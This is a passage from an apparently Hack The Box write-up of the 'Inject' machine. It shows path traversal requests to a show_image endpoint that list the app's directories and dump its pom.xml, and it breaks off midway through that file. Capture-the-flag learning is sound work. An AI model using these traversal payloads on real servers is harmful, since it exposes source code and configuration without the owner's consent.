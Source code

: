     Ok, tomcat is used as web server.

<br><br>


- `python3 httpget.py "http://inject.htb:8080/show_image?img=../uploads"`
    ```
    test.png
    ```

<br><br>

- I go up again to see other files: `python3 httpget.py "http://inject.htb:8080/show_image?img=../../"`
    ```
    main
    test
    ```

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../../../"`
    ```
    .classpath
    .DS_Store
    .idea
    .project
    .settings
    HELP.md
    mvnw
    mvnw.cmd
    pom.xml
    src
    target
    ```

    `pom.xml`
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
            <modelVersion>4.0.0</modelVersion>
            <parent>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-starter-parent</artifactId>
                    <version>2.6.5</version>
                    <relativePath/> <!-- lookup parent from repository -->
            </parent>
            <groupId>com.example</groupId>
            <artifactId>WebApp</artifactId>
            <version>0.0.1-SNAPSHOT</version>
            <name>WebApp</name>
            <description>Demo project for Spring Boot</description>
            <properties>
                    <java.version>11</java.version>
            </properties>
            <dependencies>
                    <dependency>
                            <groupId>com.sun.activation</groupId>
                            <artifactId>javax.activation</artifactId>
                            <version>1.2.0</version>
                    </dependency>
